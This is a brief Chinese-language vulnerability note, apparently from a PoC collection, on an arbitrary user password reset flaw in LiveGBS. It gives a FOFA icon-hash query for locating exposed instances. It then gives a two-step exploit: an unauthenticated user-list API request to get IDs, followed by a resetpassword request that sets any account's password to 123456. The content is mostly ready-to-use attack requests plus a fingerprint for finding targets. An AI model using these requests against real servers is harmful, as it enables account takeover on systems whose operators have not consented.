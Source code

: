 # LiveGBS任意用户密码重置漏洞

LiveGBS部分接口存在未授权访问导致，可以通过组合漏洞修改任意用户密码

## fofa

```yaml
icon_hash="-206100324"
```
![image](https://github.com/user-attachments/assets/9f85ad3a-1887-4d8b-931d-ec94c9673761)

## poc

### 获取用户id

```
/api/v1/user/list?q=&start=&limit=10&enable=&sort=CreatedAt&order=desc
```

![image-20240820155005009](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408201550568.png)

### 通过id更改用户密码

```
/api/v1/user/resetpassword?id=22&password=123456
```

![image-20240820155041297](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408201550695.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/6To5_MA83i7rEfrxlqNpAQ
